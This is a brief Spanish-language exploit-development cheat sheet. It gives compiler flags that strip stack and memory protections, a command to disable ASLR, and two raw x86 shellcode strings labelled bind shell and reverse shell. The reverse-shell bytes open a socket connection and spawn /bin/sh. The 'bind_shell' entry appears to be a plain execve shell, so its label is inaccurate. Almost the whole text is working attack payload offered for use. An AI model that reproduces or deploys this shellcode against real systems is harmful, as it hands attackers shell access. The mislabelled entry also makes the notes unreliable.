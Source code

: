 # Vulnes

## Comandos Útiles

    sudo apt install gcc-multilib
    
    dpkg --add-architecture i386

    name=shellcode

    gcc $name.c -o $name -no-pie -ggdb -m32 -fno-pic -z execstack -mpreferred-stack-boundary=2 -fno-stack-protector

    nasm -f elf32 -o $name.obj $name.asm && ld -m elf_i386 -o $name $name.obj

## ASLR

    PATH: 			/proc/sys/kernel/randomize_va_space
    Disable Randomization: 	sysctl -w kernel.randomize_va_space=0

## shellcode

### bind_shell
        
    char shellcode[] = "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x4b\x4b\x4b\x4b";

    length = 49

### reverse_shell

    char shellcode[] = "\x89\xe5\x31\xc0\x31\xc9\x31\xd2\x50\x50\xb8\xff\xff\xff\xff\xbb\x80\xff\xff\xfe\x31\xc3\x53\x66\x68\x11\x5c\x66\x6a\x02\x31\xc0\x31\xdb\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\x66\xb8\x6a\x01\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x49\xcd\x80\x41\xe2\xf6\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";

    length = 93
